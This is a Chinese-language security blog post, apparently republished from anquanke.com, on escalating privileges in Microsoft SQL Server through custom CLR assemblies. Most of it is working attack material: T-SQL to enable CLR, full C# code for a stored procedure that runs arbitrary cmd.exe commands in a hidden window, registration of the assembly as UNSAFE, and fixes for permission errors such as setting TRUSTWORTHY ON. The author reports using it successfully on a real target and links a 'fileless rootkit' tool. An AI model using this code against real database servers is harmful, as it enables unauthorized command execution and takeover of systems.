> 原文链接: https://www.anquanke.com//post/id/250346 


# 在MSSQL中使用CLR组件提权


                                阅读量   
                                **19666**
                            
                        |
                        
                                                                                    



[![](https://p4.ssl.qhimg.com/t01403959c036ed2ec0.jpg)](https://p4.ssl.qhimg.com/t01403959c036ed2ec0.jpg)



## （一）CLR介绍

Microsoft SQL Server 2005之后，实现了对 Microsoft .NET Framework 的公共语言运行时(CLR)的集成<br>
CLR 集成使得现在可以使用 .NET Framework 语言编写代码，从而能够在 SQL Server 上运行，现在就可以通过 C# 来编写 SQL Server 自定义函数、存储过程、触发器等<br>
大概意思就是，利用CRL组件我们可以在SQ Server数据库上执行任意C#代码



## （二）利用前提
- SQL Server上能启用CLR组件并可以创建自定义存储过程
- SQL Server当前账号具有执行命令和代码所需要的权限


## （三）利用过程

当前环境：SQL Server2008、.NET Framework3.5、Visual Studio<br>
（1）配置SQL Server CLR<br>
开启：

```
--开启所有服务器配置
sp_configure 'show advanced options', 1; 
RECONFIGURE WITH override 
GO 
--开启 CLR
sp_configure 'clr enabled', 1; 
RECONFIGURE WITH override 
GO

```

关闭：

```
--关闭所有服务器配置
sp_configure 'show advanced options', 0; 
RECONFIGURE WITH override 
GO 
--关闭 CLR
sp_configure 'clr enabled', 0; 
RECONFIGURE WITH override 
GO

```

[![](https://p5.ssl.qhimg.com/t01b563cc9888b872cb.png)](https://p5.ssl.qhimg.com/t01b563cc9888b872cb.png)

（2）CLR Function<br>
打开Visual Studio新建SQL server项目

[![](https://p3.ssl.qhimg.com/t0158aa8af2d4e99c38.png)](https://p3.ssl.qhimg.com/t0158aa8af2d4e99c38.png)

[![](https://p5.ssl.qhimg.com/t0147d3df62e42ddf7a.png)](https://p5.ssl.qhimg.com/t0147d3df62e42ddf7a.png)

[![](https://p4.ssl.qhimg.com/t01e1e5e3aa1d963ecd.png)](https://p4.ssl.qhimg.com/t01e1e5e3aa1d963ecd.png)

添加SQL CLR C# 存储过程

[![](https://p5.ssl.qhimg.com/t015fde402eb0f95d22.png)](https://p5.ssl.qhimg.com/t015fde402eb0f95d22.png)

写入代码

```
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
`{`
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void ExecCommand (string cmd)
    `{`
        // 在此处放置代码
        SqlContext.Pipe.Send("Command is running, please wait.");
        SqlContext.Pipe.Send(RunCommand("cmd.exe", " /c " + cmd));
    `}`
    public static string RunCommand(string filename,string arguments)
    `{`
        var process = new Process();

        process.StartInfo.FileName = filename;
        if (!string.IsNullOrEmpty(arguments))
        `{`
            process.StartInfo.Arguments = arguments;
        `}`

        process.StartInfo.CreateNoWindow = true;
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;

        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
        process.OutputDataReceived += (sender, args) =&gt; stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        `{`
            process.Start();
            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
            process.WaitForExit();
        `}`
        catch (Exception e)
        `{`
            SqlContext.Pipe.Send(e.Message);
        `}`

        if (process.ExitCode == 0)
        `{`
            SqlContext.Pipe.Send(stdOutput.ToString());
        `}`
        else
        `{`
            var message = new StringBuilder();

            if (!string.IsNullOrEmpty(stdError))
            `{`
                message.AppendLine(stdError);
            `}`

            if (stdOutput.Length != 0)
            `{`
                message.AppendLine("Std output:");
                message.AppendLine(stdOutput.ToString());
            `}`
            SqlContext.Pipe.Send(filename + arguments + " finished with exit code = " + process.ExitCode + ": " + message);
        `}`
        return stdOutput.ToString();
    `}`
`}`
```

[![](https://p2.ssl.qhimg.com/t019ce0140d93514069.png)](https://p2.ssl.qhimg.com/t019ce0140d93514069.png)

运行后

[![](https://p5.ssl.qhimg.com/t01afc93818d3f6408a.png)](https://p5.ssl.qhimg.com/t01afc93818d3f6408a.png)

（3）注册CLR程序集<br>
注册程序集的方式有以下两种：
- 通过指定程序集DLL路径
```
CREATE ASSEMBLY UserDefinedClrAssembly 
--AUTHORIZATION sa        --指定数据库所有者，默认为当前用户
FROM 'C:\Users\Administrator\Desktop\CLR Assembly\UserDefinedSqlClr.dll'        --指定文件路径
WITH PERMISSION_SET = UNSAFE;        --指定程序集的权限
```
- 通过文件十六进制流
```
CREATE ASSEMBLY UserDefinedClrAssembly 
--AUTHORIZATION sa        --指定数据库所有者，默认为当前用户
FROM 0x4D5A90000300000004000000FFFF0000B8000000000000004000000000    --指定DLL的16进制文件流(当然没这么少，我删掉了)
WITH PERMISSION_SET = UNSAFE;        --指定程序集的权限
```

此处使用第二种方式，利用文件十六进制写入数据库运行

[![](https://p5.ssl.qhimg.com/t0156cc56d60724e209.png)](https://p5.ssl.qhimg.com/t0156cc56d60724e209.png)

（4）创建存储过程

```
CREATE PROCEDURE [dbo].[ExecCommand]
@cmd NVARCHAR (MAX)
AS EXTERNAL NAME [Database1].[StoredProcedures].[ExecCommand]
go
```

[![](https://p2.ssl.qhimg.com/t012fb0f699e0142934.png)](https://p2.ssl.qhimg.com/t012fb0f699e0142934.png)

（5）执行命令

```
exec dbo.ExecCommand "whoami";
```

[![](https://p1.ssl.qhimg.com/t0168054b13325ee165.png)](https://p1.ssl.qhimg.com/t0168054b13325ee165.png)

实战也成功了！

[![](https://p0.ssl.qhimg.com/t0194784632b35aed60.png)](https://p0.ssl.qhimg.com/t0194784632b35aed60.png)



## （四）进阶用法

[https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit](https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit)



## （五）踩坑总结
<li>SQLserver版本对应的.NET Framework框架版本，本地测试使用的SQL Server2008数据库 对应的.NET Framework框架必须是3.0、3.5，否则生成的16进制程序集放入SQL语句中报错<br>[![](https://p3.ssl.qhimg.com/t015cb864a53b858208.png)](https://p3.ssl.qhimg.com/t015cb864a53b858208.png)
</li><li>程序集权限不足或提示使用sp_add_trusted_assembly 信任程序集<br>[![](https://p1.ssl.qhimg.com/t0196dda3bb20a2df4f.png)](https://p1.ssl.qhimg.com/t0196dda3bb20a2df4f.png)<br>
执行： ALTER DATABASE databasename SET TRUSTWORTHY ON</li><li>数据库所有者 SID 不同<br>[![](https://p1.ssl.qhimg.com/t019626f45d5a54b958.png)](https://p1.ssl.qhimg.com/t019626f45d5a54b958.png)<br>
执行：Sp_changedbowner ‘sa’,true</li>